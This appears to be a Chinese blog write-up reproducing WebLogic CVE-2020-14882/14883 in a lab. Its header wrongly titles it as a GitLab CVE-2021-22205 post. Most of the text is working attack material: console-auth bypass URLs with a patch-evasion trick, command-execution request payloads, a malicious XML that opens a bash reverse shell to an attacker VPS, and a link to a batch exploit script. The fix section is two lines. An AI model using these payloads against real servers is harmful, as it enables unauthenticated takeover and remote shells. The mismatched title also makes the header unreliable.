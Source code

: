```yaml
---
title: GitLab 未授权RCE11(CVE-2021-22205)  --花无名   
layout: mypost
categories: [漏洞复现]
---
```


# 漏洞说明

​	2020年10月21日，Oracle官方发布多个高危漏洞公告。其中组合利用CVE-2020-14882/ CVE-2020-14883可使未经授权的攻击者绕过WebLogic后台登录等限制，最终远程执行代码接管WebLogic服务器，利用难度极低，风险极大。

## 影响版本

​	10.3.6.0.0、12.1.3.0.0、12.2.1.3.0、12.2.1.4.0、14.1.1.0.0

## 复现

​	使用Vunhub靶场搭建，Weblogic 12.2.1.3.0版本

![image-20211110143835747](image-20211110143835747.png)

### 未授权访问-CVE-2020-14882

通过访问以下url可进行绕过验证，访问控制台

```
http://IP:7001/console/images/%252E%252E%252Fconsole.portal
http://IP:7001/console/css/%252E%252E%252Fconsole.portal
```

通过对路径的二次url编辑进行访问绕过，官方发布相对于的补丁可通过大小写的转化进行绕过补丁

```
/console/css/%252e%252e%252fconsole.portal //大写换成小写可绕过补丁
```

成功到控制台后，因权限比正常登录账户会小很多，缺少部署等功能。无法通过部署项目的方式进行RCE

![image-20211110144431426](image-20211110144431426.png)

### 远程RCE-CVE-2020-14883

通过配合未授权访问打组合拳，主要通过构造恶意请求的请求包，远程下载执行VPS内的恶意XML文件达到反弹shell 

#### 1.命令执行

直接可构造请求包进行命令执行，判断是否存在。拼接好get请求后，在后面加入需要执行的系统命令

Poc Windows

```
http://x.x.x.x:7001/console/images/%252E%252E%252Fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27cmd%27);%22)
```

Poc Linux

```
GET /console/css/%252e%252e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession(%27weblogic.work.ExecuteThread%20currentThread%20=%20(weblogic.work.ExecuteThread)Thread.currentThread();%20weblogic.work.WorkAdapter%20adapter%20=%20currentThread.getCurrentWork();%20java.lang.reflect.Field%20field%20=%20adapter.getClass().getDeclaredField(%22connectionHandler%22);field.setAccessible(true);Object%20obj%20=%20field.get(adapter);weblogic.servlet.internal.ServletRequestImpl%20req%20=%20(weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod(%22getServletRequest%22).invoke(obj);%20String%20cmd%20=%20req.getHeader(%22cmd%22);String[]%20cmds%20=%20System.getProperty(%22os.name%22).toLowerCase().contains(%22window%22)%20?%20new%20String[]{%22cmd.exe%22,%20%22/c%22,%20cmd}%20:%20new%20String[]{%22/bin/sh%22,%20%22-c%22,%20cmd};if(cmd%20!=%20null%20){%20String%20result%20=%20new%20java.util.Scanner(new%20java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter(%22\\A%22).next();%20weblogic.servlet.internal.ServletResponseImpl%20res%20=%20(weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod(%22getResponse%22).invoke(req);res.getServletOutputStream().writeStream(new%20weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();}%20currentThread.interrupt();%27) HTTP/1.1
Host: x.x.x.x:7001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: ADMINCONSOLESESSION=z5ccPjdcv2OjbyH6CNmOHpulsxcMyPfnGM434PTom5QWuvadcN-u!-1073393521
Upgrade-Insecure-Requests: 1
cmd: whoami && pwd
```

#### ![image-20211110150339850](image-20211110150339850.png)2.恶意XML RCE

恶意XML文档准备，开启NC监听

XML写入需执行系统的命令

将准备的文档放置在目标机器可达的VPS内

```
 <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
 <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>/bin/bash</value>
        <value>-c</value>
        <value><![CDATA[bash -i >& /dev/tcp/x.x.x.x/7777  0>&1]]></value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

2.构造请求进行访问执行

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://ip/2.xml"）
```

![image-20211110145601643](image-20211110145601643.png)



再次查看监听机可获取权限内容

#### 3.脚本利用 RCE

GGyao写的利用脚本：https://github.com/backlion/CVE-2020-14882_ALL

脚本支持命令回显检测，批量命令回显检测，外置xml无命令检测。根据攻击需求进行使用

![image-20211110150426994](image-20211110150426994.png)

# 修复

根据业务升级升级升级

关闭后台/console/console.portal的访问权限

